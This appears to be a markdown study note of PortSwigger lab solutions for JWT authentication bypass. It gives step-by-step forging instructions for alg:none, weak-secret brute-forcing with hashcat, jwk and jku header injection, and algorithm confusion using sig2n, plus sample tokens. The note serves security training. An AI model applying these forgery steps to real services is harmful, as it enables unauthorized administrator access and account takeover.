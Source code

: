 # JWT

 Symmetric Key  : HS256
 ASymmetric key : RSA

### Lab: JWT authentication bypass via unverified signature

Payload
```
change path :  /admin

{"iss":"portswigger","exp":1760963935,"sub":"wiener"}

{"iss":"portswigger","exp":1760963935,"sub":"administrator"}



```

### Lab: JWT authentication bypass via flawed signature verification

Payload
```
{"kid":"d6458e13-1d6f-4510-95ed-2a634838ee97","alg":"RS256"} 
{"kid":"d6458e13-1d6f-4510-95ed-2a634838ee97","alg":"none"}
- Remove the signature from the JWT, but remember to leave the trailing dot after the payload.

{"iss":"portswigger","exp":1760966827,"sub":"wiener"}
{"iss":"portswigger","exp":1760966827,"sub":"administrator"}

```

### Lab: JWT authentication bypass via weak signing key

Payload
```
step 1 : Brute-force the secret key

	hashcat -a 0 -m 16500 complete_jwt_tokens ./jwt.secrets.list  : secret1
	Encode in base64 secret1 : c2VjcmV0MQ==

step 2: Generate a forged signing key

	 - JWT Editor Keys tab and click New Symmetric Key : Generate
	 - Replace the generated value for the k property with the Base64-encoded secret.

step 3 - Modify and sign the JWT
		
	 - {"iss":"portswigger","exp":1760963935,"sub":"wiener"}
	 - {"iss":"portswigger","exp":1760963935,"sub":"administrator"}

	 - Sign, then select the key that you generated .



```

## JWT header parameter injections

- According to the JWS specification, only the alg header parameter is mandatory. In practice, however, JWT headers (also known as JOSE headers) often contain several other parameters. The following ones are of particular interest to attackers.

		- 	jwk (JSON Web Key) - Provides an embedded JSON object representing the key.
		-	jku (JSON Web Key Set URL) - Provides a URL from which servers can fetch a set of keys containing the correct key.
		-	kid (Key ID) - Provides an ID that servers can use to identify the correct key in cases where there are multiple keys to choose from. Depending on the format of the key, this may have a matching kid parameter.

### Lab: JWT authentication bypass via jwk header injection

Payload
```
- JWT Editor Keys tab.
- Generate a new RSA key .
- JSON Web Token tab and modify the token's payload however you like.
- Click Attack, then select Embedded JWK.
- you may also need to update the JWT's kid header parameter to match the kid of the embedded key

```

### Lab: JWT authentication bypass via jku header injection

Payload
```
step 1: Generate a RSA signing key
	- JWT Editor Keys tab.
	- Generate a new RSA key 
	- Paste the RSA key on exploit server in below section :
		{
    	"keys": [
    		// Generate a new RSA key 
    		]
		}

- step 2 - Modify and sign the JWT
	- Match the both kid values (new values)
	- Add a new jku parameter to the header of the JWT. Set its value to the URL of your JWK Set on the exploit server.
	- sub  : administrartor 
	- Sign with RSA key
```

![alt text](https://raw.githubusercontent.com/robin113x/BSCP-Exam/refs/heads/main/Images/jwt-jku.jpg)


<hr>

### Lab: JWT authentication bypass via algorithm confusion


Payload
```
step 1 — Obtain the server public key
	- Open /jwks.json in the browser and copy the single JWK object from the keys array (copy only the object).

step 2 — Create a malicious symmetric key in Burp

	- In Burp → JWT Editor → Keys: New RSA Key → choose JWK and paste the copied JWK; save.
	- Right-click the new key → Copy Public Key as PEM.
	- Base64-encode that PEM (use Decoder tab) and copy the Base64 string.
	- In JWT Editor → Keys: New Symmetric Key → Generate, then replace the k value with the Base64-encoded PEM; save.

Step 3 — Modify and sign the token

	- Open the GET /admin request in Repeater, switch to the JWT Editor tab.
	- Change JWT header alg → HS256.
	- Change payload claim sub → administrator.
	- Click Sign, pick the symmetric key you created, ensure Don't modify header is selected, and sign.
	- Send the request — you should now access the admin panel.

```


eyJraWQiOiJkMDViODA0OS0zMTJhLTQ5ZDEtOWEzMS1mYzZhZGYyMzA5MDMiLCJhbGciOiJSUzI1NiJ9.eyJpc3MiOiJwb3J0c3dpZ2dlciIsImV4cCI6MTc2MTA4ODA4OSwic3ViIjoid2llbmVyIn0.lS8m_gxpM4IOtEdpN4qRmi9y78y27xfWUCQd9Rhe7mn4MVpvjvPC0zwgD54Y1zOYUohmAHScqQHpqskJ7xm1BviNseldHnuyskG1cdi1DRd_-nglQAGfyor7Zq37wS05TzWIBCvlNgoA3fl53bQMbAAtoNACRgEkRCxwbT3_TAu0rxohctZKXF92sTQxqwsu0EbCgU-UzpAJid9Q9hZBGDy9v0MhFoe-T67RCjZEgrOkFSp6tuu0-KneQa2Rd39T4WMMKAJpzneUDX6U-IISChZaK06ORCNnWQIHmSfXas6Burt8HzqHOxbXb5KrnGQBOJ7Em6fRUrpXMxR1j_h9nQ


eyJraWQiOiJkMDViODA0OS0zMTJhLTQ5ZDEtOWEzMS1mYzZhZGYyMzA5MDMiLCJhbGciOiJSUzI1NiJ9.eyJpc3MiOiJwb3J0c3dpZ2dlciIsImV4cCI6MTc2MTA4ODE3OSwic3ViIjoid2llbmVyIn0.LwNBoOjD0-VwaVQeZ9ELLWDQPUzqR5Uk-vbdMtbM3DVwWWl2xohuE_Qqhi6vQ4p7YdQuYIhrrRSU-nHhZS90nPInvLFLFqYbxrB83Pl9TWxForedKF8eHAKlZ6V7YlmQpknU0divlLb05daF6JeslBbDlXicSy41Gl4KOZncssUwMY-meARFLd9c2vNYwL08KpwJcguSXCXYd7mtrFp2mJj6aLrQbSpMTjtC8iVdzOW4SYnnFpr22gSQoRV8uL1XS66yJNr-WzbFuG88-YnlduywfKuBRbdIpQHhVq6UQbDefC73oWjwkTUMjMIg1AhD1wIhe4labSni8sm5W4Rr6w


Payload
```
Step1:  Collect two valid JWTs
	- Log in, capture the session JWT (/my-account → store cookie).
	- Log out, log in again, capture a second JWT.
Step2: Brute-force candidate public keys
	- Run docker run --rm -it portswigger/sig2n <token1> <token2>.
	- The tool outputs candidate n values, Base64 X.509/PKCS1 public keys and tampered JWTs.
	- Find the server’s actual public key
	- For each tampered JWT (X.509 entry) replace your session cookie in Burp and request /my-account.
	- A 200 means you found the correct X.509 key; a 302 redirect to /login means it’s wrong.
	- Create a symmetric key in Burp
	- In JWT Editor → Keys → New Symmetric Key → Generate JWK.
	- Replace the k value with the Base64 X.509 key you identified (use the key itself, not the tampered JWT). Save.
	- Forge and sign an admin token
	- In Repeater open the JWT (JWT Editor tab). Set header alg: HS256.
	- Change payload claim sub to administrator.
	- Sign with the symmetric key you created (ensure “Don't modify header” is selected). This uses the server’s public key as the HMAC secret.
```